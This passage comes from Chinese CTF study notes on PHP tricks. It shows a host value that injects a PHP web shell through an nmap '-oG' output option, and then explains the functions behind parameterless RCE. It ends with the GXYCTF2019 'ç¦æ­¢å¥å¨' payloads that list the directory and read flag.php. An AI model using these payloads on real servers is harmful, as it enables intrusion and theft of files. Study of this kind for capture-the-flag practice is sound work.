 `$host = ' <?php @evl(&_POST["YSY"]);?> -oG hack.php ’`

![Untitled](../../CTF赛题/BUU月赛/attachment/PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%202.png)

蚁剑连接不到对应文件夹下的shell。。。

## 无参数RCE

- localeconv() 函数返回一包含本地数字及货币格式信息的数组。
- current() 函数返回数组中的当前元素的值。
- scandir列出指定目录中的文件和目录，当参数为.时，即列出当前目录的文件
- array_reverse()函数以相反的元素顺序返回数组。
- highlight_file将代码高亮显示出来

###  [GXYCTF2019]禁止套娃

获取目录下文件

?exp=print_r(scandir(current(localeconv())));

让指针指向flag.php元素

?exp=print_r(next(array_reverse(scandir(current(localeconv())))));

读取flag.php

?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));
